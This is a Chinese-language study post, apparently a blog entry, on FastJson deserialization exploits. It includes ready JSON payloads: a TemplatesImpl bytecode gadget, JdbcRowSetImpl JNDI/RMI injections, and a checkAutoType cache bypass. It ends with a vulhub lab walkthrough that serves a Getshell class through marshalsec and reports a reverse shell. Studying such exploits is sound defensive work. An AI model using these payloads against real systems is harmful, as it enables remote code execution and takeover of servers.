FastJson 1.2.22 - 1.2.24
fastjson是java反序列化中一个经典的漏洞了,早些在使用java写爬虫程序的时候就用过这个库,今天就针对其反序列化漏洞再来学习一次。
首先先介绍一下JavaBean ，JavaBean 包括一个默认的构造函数、私有的成员变量以及公共的 getter 和 setter 方法。这些方法用于对类中的属性进行读取和赋值操作,并且可以通过反射机制对其进行访问。
JavaBean 类通常被用作数据传输对象（DTO）或持久化对象（POJO）,并且经常与 Web 应用程序框架（如 Spring MVC）一起使用。通过将数据映射到 JavaBean 对象中,我们可以方便地进行数据绑定、表单验证以及数据库访问等操作。
以下是一个简单的 JavaBean 类示例：
1 | public class Person { |
示例代码如下：
1 | import com.alibaba.fastjson.JSON; |
输出结果：

可见在fastjson在序列化的时候会调用JavaBean对象中对应参数的get方法,而在反序列化的时候会调用相应的set方法（要指定反序列化对象）,但我们如何选择反序列化后生成对象是谁呢？
fastjson给了我们一个@type用来指定反序列化后生成的对象：
1 | String stringobject = "{\"@type\":\"Person\":\"age\":21,\"name\":\"1y0ng\"}"; |

注:这里如果只是以下函数是不会触发get和set方法的
2
System.out.println(JSON.parseObject(stringobject));
结合cc3
之前在学cc3和shiro的CB链的时候用到了TemplatesImpl类的getOutputProperties方法,刚好这就是get方法,所以我们这里这里可以试试这种方法的利用
首先将字节数组以base64字符串的形式输出
1 | byte[] codes = Files.readAllBytes(Paths.get("D:\\php_project\\shengji_study\\target\\classes\\runtime.class")); |
然后放入到json字符串中得到poc：
1 | {"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQANAoACAAkCgAlACYIACcKACUAKAcAKQoABQAqBwArBwAsAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAlMcnVudGltZTsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcALQEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAIPGNsaW5pdD4BAAFlAQAVTGphdmEvaW8vSU9FeGNlcHRpb247AQANU3RhY2tNYXBUYWJsZQcAKQEAClNvdXJjZUZpbGUBAAxydW50aW1lLmphdmEMAAkACgcALgwALwAwAQAEY2FsYwwAMQAyAQATamF2YS9pby9JT0V4Y2VwdGlvbgwAMwAKAQAHcnVudGltZQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAPcHJpbnRTdGFja1RyYWNlACEABwAIAAAAAAAEAAEACQAKAAEACwAAAC8AAQABAAAABSq3AAGxAAAAAgAMAAAABgABAAAACQANAAAADAABAAAABQAOAA8AAAABABAAEQACAAsAAAA/AAAAAwAAAAGxAAAAAgAMAAAABgABAAAAFQANAAAAIAADAAAAAQAOAA8AAAAAAAEAEgATAAEAAAABABQAFQACABYAAAAEAAEAFwABABAAGAACAAsAAABJAAAABAAAAAGxAAAAAgAMAAAABgABAAAAGgANAAAAKgAEAAAAAQAOAA8AAAAAAAEAEgATAAEAAAABABkAGgACAAAAAQAbABwAAwAWAAAABAABABcACAAdAAoAAQALAAAAYQACAAEAAAASuAACEgO2AARXpwAISyq2AAaxAAEAAAAJAAwABQADAAwAAAAWAAUAAAAMAAkADwAMAA0ADQAOABEAEAANAAAADAABAA0ABAAeAB8AAAAgAAAABwACTAcAIQQAAQAiAAAAAgAj"],"_name":"xxxx","_tfactory":{},"_outputProperties":{}} |
测试：
1 | String stringobject = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"yv66v……; |

其中,Feature.SupportNonPublicField 是 Fastjson 库中的一个选项,用于控制是否支持序列化和反序列化非公共字段。如果将该选项设置为 true,则 Fastjson 将尝试序列化和反序列化所有字段,包括私有字段和受保护字段。由于这里TemplatesImpl类的属性全都是private,所以需要设置第二个参数为Feature.SupportNonPublicField
基于JdbcRowSetImpl的jndi注入
要想利用cc3有很多的局限性,所以我们还可以通过jndi注入执行命令
com.sun.rowset.JdbcRowSetImpl这个类为我们提供了条件,其中的connect()方法为：
1 | private Connection connect() throws SQLException { |
接下来发现connect()方法被setAutoCommit方法调用了


这里刚好是一个set方法,可以被fastjson反序列化调用
这里推荐一个工具——yakit
开启反连服务器

设置JavaPayLoad

构造poc（网上有人说这里autoCommit必须为true,但我测试下来true和false都可以）
1 | {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:8085/hDEqCUyW", "autoCommit":0} |
命令执行成功
FastJson <1.2.47
在1.2.24版本之后,fastjson引入了一个checkAutotype函数,通过黑白名单的方式来检查反序列化是否安全,如果能正常返回clazz的话就会加载并实例化clazz类

判断的流程有些复杂,但还是存在可以绕过的情况。在checkAutotype函数中首先会进行一个黑白名单判断,如果传入的类既不在白名单里又不在黑名单里,那么就会对缓存中存在的类进行判断,如果能够在缓存中找到这个类,就返回这个类的clazz,主要代码如下：
1 | public Class<?> checkAutoType(String typeName, Class<?> expectClass) { |
查看getClassFromMapping方法,在com.alibaba.fastjson.util.TypeUtils类中
1 | public static Class<?> getClassFromMapping(String className) { |
找一下mappings参数的put方法,发现有两处,第一处是addBaseClassMappings方法

听名字都知道这里只是将一些基础类放到mappings中,我们无法控制
另外一处是loadClass方法,loadClass会把传入的类名放到mappings中

找一下发现com.alibaba.fastjson.serializer.MiscCodec类调用了loadClass方法

而MiscCodec又实现了ObjectSerializer接口,说明它是一个``反序列化器`,

然而fastjson的反序列化需要用到反序列化器,这个反序列化器是从config中得到的

根据反序列化类的不同调用不同的的反序列化器,如下图中如果反序列化的类是Class类,那么就会调用MiscCodec类这个反序列化器,进而调用loadClass方法

再来看看参数的传递,我们要让com.sun.rowset.JdbcRowSetImpl作为参数传入到loadClass方法,在MiscCodec类中传入的是strVal参数,而与strVal参数有关的部分代码为：
1 | Object objVal; |
为了使最后的strVal等于com.sun.rowset.JdbcRowSetImpl,我们要传入一个val,其值为com.sun.rowset.JdbcRowSetImpl
最后构造poc
1 | {{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:8085/PxTxVXhC", "autoCommit":true}} |
命令执行成功

vulhub复现
启动靶场（这里打的是1.2.47）
1 | docker-compose up -d |
yakit开个监听端口
编写恶意代码Getshell.java
1 | import java.lang.Runtime; |
编译以后利用python将Getshell.class挂起来
1 | python -m http.server 6666 |
接下来利用marshalsec启动RMI服务（这里直接用yakit似乎没用）
项目地址： https://github.com/mbechler/marshalsec
下载以后先用mvn编译
1 | mvn clean package -DskipTests |
生成target后运行marshalsec-0.0.3-SNAPSHOT-all.jar
1 | java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.59.1:6666/#Getshell" 9999 |
构造exp
1 | { |
burpsuite重放以后发现yakit成功反弹了shell